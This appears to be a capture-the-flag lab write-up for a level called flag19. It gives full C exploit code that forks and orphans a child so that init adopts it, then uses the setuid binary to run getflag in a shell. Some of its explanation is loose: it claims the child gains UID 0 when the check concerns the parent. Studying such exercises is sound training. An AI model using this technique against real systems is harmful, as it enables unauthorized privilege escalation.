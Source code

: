 > int setresuid(uid_t ruid, uid_t euid, uid_t suid): sets the real user ID, the effective user ID, and the saved set-user-ID of the calling process. A privileged process may set its UIDs to arbitrary values.

1. The only way to get to the shell is to run the program as root, and we are clearly not root. However, we can make use of the Unix adopting policy for orphaned processes: init was started by root, as we can see with `ps -ef | grep init` (-e to see all processes, -f to format it properly), and having processes adopted by it would escalate their privileges.
2. This means that we need a process that starts flag19 and then dies before the checks on the parent ID. This can be achieved with a `fork()`. We have to write a C program that forks itself, then we wait for this new process to become orphaned, and then we call `execve()` with the flag19 binary to run the getflag command in a shell with proper permissions.

    ```c
    int main(int argc, char **argv, char **envp){
        int child = fork();

        if(child == 0){
            sleep(2);
            setresuid(geteuid(), geteuid(), geteuid());
            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
            execve("/home/flag19/flag19", args, envp);
        }
        return 0;
    }
    ```
3. Compile this file with `gcc /tmp/flag19.c -o /tmp/flag19``, give it execution permissions if needed, and run it.
4. The parent process will die upon spawn of the child, which in turn will have UID == 0 and therefore pass the check and be allowed to enter the original `execve` in the /home/flag19/flag19 program. This will execute `getflag` for us.



